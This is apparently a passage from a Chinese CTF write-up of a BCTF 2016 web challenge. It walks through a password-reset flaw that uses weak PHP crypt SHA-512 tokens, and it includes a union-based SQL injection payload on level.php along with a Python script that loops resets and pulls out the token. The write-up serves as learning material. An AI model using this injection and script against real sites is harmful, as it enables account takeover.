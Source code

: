 3.重置密码，在reset_do.php输入在数据库爆出的验证码，显示token不正确，需要重新获取，果然回到数据库，失败一次后数据库token被清空，需求在reset.php重新获取，所以只能利用注入爆破验证码


4.在reset.php的源码中有提示

![image](http://note.youdao.com/yws/res/927/82CB36AC77FB402485EEFBFBD95D0C65)

经过搜索找到这个php crypt的share12加密算法，rounds=5000代表算法循环5000次，当指定次数小于1000时，也会最低循环1000次，所以这里说程序员用错了算法

![image](http://note.youdao.com/yws/res/925/2EFC96B2C08C48E9878469B17F4B7671)

经验证，以下通过sha512加密得到的与题目一致，这里出题人写的博客记录了这个漏洞，http://www.91ri.org/14547.html

```
<?php
echo 'SHA-512:' . crypt('bctf2016', '$6$rounds=66') . "\n";
?>
```

利用reset操作计算验证码，`/level.php?name=-1' union select concat(0x23,token,0x23) from token where username = 'member'%23`

```
import urllib2
import urllib
import sys
import requests

def getpass():
    html = requests.options('http://8fb6a7f18e9841cba75ec373f64821f9cadcd4396ed045af.changame.ichunqiu.com/level.php?name=-1%27%20union%20select%20concat(0x23,token,0x23)%20from%20token%20where%20username%20=%20%27member%27%23').text
    print(html)
    fd1 = html.find('#')
    fd2 = html.find('#', fd1+1)
    return html[fd1+1:fd2]

def reset():
    data = {'username': 'member'}
    data = urllib.urlencode(data)
    html = urllib2.urlopen('http://8fb6a7f18e9841cba75ec373f64821f9cadcd4396ed045af.changame.ichunqiu.com/reset.php', data).read()


fp = open('ichunqiu.txt', 'r')
hs = fp.readlines()
fp.close()
for i in range(1000):
    reset()
    pwd = getpass()
    print(str(i))
    for j in hs:
        if pwd in j:
            print(j)
            print('token found')
            sys.exit(0)
```
